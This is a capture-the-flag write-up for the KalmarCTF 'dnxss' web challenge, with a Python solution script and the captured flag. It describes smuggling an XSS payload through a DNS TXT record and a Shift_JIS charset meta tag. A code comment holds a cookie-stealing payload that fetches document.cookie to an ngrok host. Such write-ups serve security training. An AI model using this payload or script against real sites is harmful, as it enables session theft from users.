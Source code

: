 [KalmarCTF](https://ctftime.org/event/2599)

# dnxss (web)
`Content-Type text/html` does all the heavy lifting as the flag says.
But its missing the encoding type. So you have to add that on a `<meta>` tag.
Then the problem becomes the payload size. The way I solved was by adding a TXT record to my domain, calling `/cache` and using the raw dns query endpoint `/dns-query`. 
Then I just try out every enconding until some worked `Shift_JIS`. + Code from chatgpt.

## Solution

```python
import requests
import base64
import struct
import random

# <meta charset="Shift_JIS"><img src='x' onerror='fetch("https://bfb7-2804-1b3-8146-9228-4020-8696-f77a-6594.ngrok-free.app/" + btoa(document.cookie))'>
def send_txt_query(domain):
    query_id = random.randint(0, 65535)

    query_id_bytes = struct.pack(">H", query_id)

    header = query_id_bytes + b"\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00"

    domain_parts = domain.split(".")
    question = (
        b"".join(bytes([len(part)]) + part.encode() for part in domain_parts) + b"\x00"
    )

    question_type_class = b"\x00\x10\x00\x01"

    query = header + question + question_type_class

    q = query
    q = base64.b64encode(q).decode().replace("=", "")

    requests.post(
        "https://dnxss.chal-kalmarc.tf:443/report",
        headers={"Content-Type": "application/json"},
        json={"url":f"http://proxy/dns-query?dns={q}"},
        proxies={
            'http': 'http://0.0.0.0:8080',
            'https': 'https://0.0.0.0:8080'
        }, verify=False
    )

send_txt_query("fouz.com.br")
```

## Flag
`kalmar{that_content_type_header_is_doing_some_heavy_lifting!_did_you_use_dns-query_or_resolve?}`

shafouz 2025/03/08
